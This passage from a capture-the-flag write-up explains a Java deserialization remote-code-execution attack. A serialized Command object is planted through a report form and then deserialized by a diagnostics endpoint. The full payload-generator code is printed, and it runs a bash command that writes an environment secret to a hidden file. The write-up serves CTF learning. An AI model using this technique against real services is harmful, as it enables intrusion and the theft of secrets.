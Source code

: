 `CommandController` and `Command` together implement a hidden RCE endpoint. By running a `POST /command` + `GET /command`, we can execute any code on the server that we want.

Except there's one problem with this: `CommandController` has been disabled. `/command` doesn't exist. So there goes our RCE exploit, right?

> Side Note: I spent way too long trying to find an already-serialized Command object in the Errors/ folder or finding a way to enable `CommandController`, until I finally realized that I *already* had a way to read and write commands.

Except we don't need `CommandController` at all. Using the report form, we can easily write a base64 serialized Command to a file on the server, and then force Java to run that command by deserializing the file in `DiagnosticsController`. Solution achieved!

## I Haven't Touched Java Serialization Since 7th Grade

To implement our solution, we'll prepare our command payload with the following script:
```java
package com.example.developershubris;

import java.io.BufferedReader;
import java.io.ByteArrayOutputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.ObjectOutputStream;
import java.util.Base64;

public class Command implements java.io.Serializable {

  private static final long serialVersionUID = -8866164100353562796L;

  public String command;
  public Command(String command)
  {
    this.command = command;
  }

  private void writeObject(java.io.ObjectOutputStream out)
      throws IOException, ClassNotFoundException {
    out.writeUTF(this.command);
  }

  private void readObject(java.io.ObjectInputStream in)
      throws IOException, ClassNotFoundException, InterruptedException {
		// -- snip --
  }

  public static void main(String[] args) throws Throwable {
    Command c = new Command("bash -c echo $FLAG >> /DevelopersHubris/Errors/.psibetarho.flag");
    
    var b = new ByteArrayOutputStream();
    new ObjectOutputStream(b).writeObject(c);
    var b2 = Base64.getEncoder().encode(b.toByteArray());
    new FileOutputStream("./in.txt").write(b2);
  }
}
```
